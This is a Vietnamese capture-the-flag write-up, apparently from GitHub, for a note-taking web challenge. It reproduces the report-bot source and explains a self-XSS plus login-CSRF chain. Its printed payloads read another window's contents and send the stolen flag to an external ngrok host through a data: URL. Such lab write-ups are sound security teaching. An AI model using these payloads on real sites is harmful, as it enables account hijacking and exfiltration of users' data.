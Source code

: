 # noted
## Description
I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.
## Solution
Bài này cho mình sẵn source code, nhưng mà theo kinh nghiệm thì nên thử hết các feature truớc đã giống như đang đấm blackbox truớc khi đọc sourcecode.

Chall mở đầu bằng trang login:

![img](./img/1.png)

Register cred bất kì và vào dashboard: 

![img](./img/3.png)

ở đây có 1 mục tạo noted ( bị dính xss) và 1 mục report URL. Nhưng mà tất cả chỉ dừng lại ở self xss, thôi thì tạm thời thế đã giờ thì review source nào =))))

![img](./img/2.png)

Đáng lưu ý nhất là ở ``report.js``

```
const crypto = require('crypto');
const puppeteer = require('puppeteer');

async function run(url) {
	let browser;

	try {
		module.exports.open = true;
		browser = await puppeteer.launch({
			headless: true,
			pipe: true,
			args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
			slowMo: 10
		});

		let page = (await browser.pages())[0]

		await page.goto('http://0.0.0.0:8080/register');
		await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
		await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);

		await page.goto('http://0.0.0.0:8080/new');
		await page.type('[name="title"]', 'flag');
		await page.type('[name="content"]', process.env.FLAG ?? 'ctf{flag}');

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);

		await page.goto('about:blank')
		await page.goto(url);
		await page.waitForTimeout(7500);

		await browser.close();
	} catch(e) {
		console.error(e);
		try { await browser.close() } catch(e) {}
	}

	module.exports.open = false;
}

module.exports = { open: false, run }
```
 
con puppeteer bot này dùng headless browser với flag ``--no-sandbox``. Đầu tiên nó sẽ tạo tài khoản bất kì, và tạo 1 note chứa flag trong session tkhoan đó. sau đó nó sẽ browse đến url mà mình gửi

Thông thuờng thì mình có thể khai thác ``self-XSS`` bằng cách sẽ là sử dụng ``CSRF`` để ``POST`` cái login form vào tài khoản của mình để trigger xss. Nhưng mà account mà con bot sử dụng đưọc tạo random cùng với csrf nên cách này sẽ ko thành công. Ngoài ra theo như hint đề bài ``There's more than just HTTP(S)!`` mình còn nghĩ đến chrome devtool protocol như là truy cập voà ``json/list`` của port 9222 rồi exploit tiếp cái websocketdebugurl But no hope :D

Nhưng có 1 điểm đặc biệt ở đây, nếu 2 windows X và Y có cùng một ``document.domain``, miễn là chúng lquan đến nhau thì chúng có thể access vào DOM của nhau :DD. Cụ thể nếu X là trang chứa flag rồi sau đó B login vào cred bị dính self-XSS thì B vẫn có thể đọc DOM từ A ( dùng window.open) để lấy flag

![img](./img/4.png)

Reference: [here](https://developer.mozilla.org/en-US/docs/Web/API/Document/domain)

Nhưng mà nếu mà mình muốn gửi POST login thì mình cũng phải chuyển huớng bot đến internet mà đề bài thì lại bảo (``Note that the headless browser used for the "report" feature does not have access to the internet.``). Nma cuối cùng là bịp,vì mình vẫn truy cập dc :D.

Đặc biệt, ở trang report, có vẻ nó không check format của url, tức là ta có thể đấm như thế này ``data:text/html,<script>alert(1)</script>``, ngoài ra ta còn có thể mở window mới để lấy CSRF

Nói chung huớng đi sẽ là
- Ở trang dính self-XSS, mình sẽ viết payload fetch dữ liệu từ window chứa flag và send nó đến ngrok để đọc
- Ở trang ``/report``, ta sẽ gửi payload như sau:
  - Mở window mới với url là trang notes mà chứa flag và đặt tên cho nó (vd: ``flag``)
  - login vào account của mình
  - ``window.location`` trang ``/notes?flag``, lúc này mình sẽ trigger đưọc xss và sẽ fetch đưọc content của trang test

Script fetch dữ liệu:
```
<script>
  if (window.location.search.includes('flag'))
    window.location = 'http://29a5-2402-800-61b1-c507-ae7e-98e9-c6f1-8e15.ngrok.io/?' + window.open('', 'flag').document.body.textContent
</script>

```
note: nên thêm điều kiện check đúng window tên ``flag`` mới fetch chứ ko nó fetch hết mỗi khi mình chui voà ``/notes`` :D

Payload đấm cái url:
```
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=c target=_blank>
  <input type="text" name="username" value="hacker"><input type="text" name="password" value="1">
</form>
<script>
  window.open('http://0.0.0.0:8080/notes', 'flag');
  setTimeout("c.submit()", 1000);
  setTimeout("window.location='http://0.0.0.0:8080/notes?flag'", 1500);
</script>
```
![img](./img/5.png)